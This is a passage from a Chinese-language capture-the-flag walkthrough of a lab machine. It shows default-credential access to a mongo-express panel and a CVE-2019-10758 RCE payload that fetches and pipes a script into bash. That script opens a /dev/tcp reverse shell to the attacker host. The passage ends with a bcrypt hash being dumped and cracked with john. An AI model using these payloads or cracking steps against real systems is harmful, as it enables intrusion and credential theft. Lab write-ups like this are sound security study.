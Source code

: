 进行端口转发, 访问我们的数据库, 看看能不能获取到什么密码之类的内容

### mongo (172.17.0.4:8081)

访问发现需要密码,. 之后经过搜索我发现了其默认的账号密码

![image-20240709232037992](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-232039.png)

使用得到的密码成功访问

![image-20240709232045025](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-232046.png)

接着经过搜索我发现一个 RCE 漏洞 [CVE-2019-10758](https://github.com/masahiro331/CVE-2019-10758), 之后利用此来获取一个新的 Shell

### root(172.17.0.4)

```bash
root@ip-10-10-141-243:~/rocket# cat reverse.sh 
#!/bin/bash
/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.141.243/4445 0>&1" 
root@ip-10-10-141-243:~/rocket# python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.213.185 - - [03/Dec/2023 10:12:07] "GET /reverse.sh HTTP/1.1" 200 -
```

```bash
root@ip-10-10-141-243:~/rocket# proxychains curl http://172.17.0.4:8081/checkValid -H 'Authorization: Basic YWRtaW46cGFzcw==' --data 'document=this.constructor.constructor("return process")().mainModule.require("child_process").execSync("curl http://10.10.141.243:8000/reverse.sh | bash")'
ProxyChains-3.1 (http://proxychains.sf.net)
|S-chain|-<>-127.0.0.1:8081-<><>-172.17.0.4:8081-<><>-OK
```

![image-20240709232122534](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-232124.png)

之后在其中进行搜索结果发现一个用户的密码哈希备份文件

```bash
bash-5.0# ls -al bson.hash
ls -al bson.hash
-rw-r--r--    1 root     root            70 Jun  1  2021 bson.hash
bash-5.0# cat bson.hash
cat bson.hash
Terrance:$2y$04$cPMSyJolnn5/p0X.B3DMIevZ9M.qiraQw.wY9rgf4DrFp0yLA5DHi
```

直接进行密码破解, 破解成功后, 我本来是想直接 SSH 登录但是没有成功, 现在可能需要返回主站做一些操作了

```bash
root@ip-10-10-141-243:~/rocket# john user.hash --wordlist=`locate rockyou.txt`
Warning: detected hash type "bcrypt", but the string is also recognized as "bcrypt-opencl"
Use the "--format=bcrypt-opencl" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 16 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
1q2w3e4r5        (Terrance)
1g 0:00:00:18 DONE (2023-12-03 10:16) 0.05500g/s 2281p/s 2281c/s 2281C/s 200685..180893
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
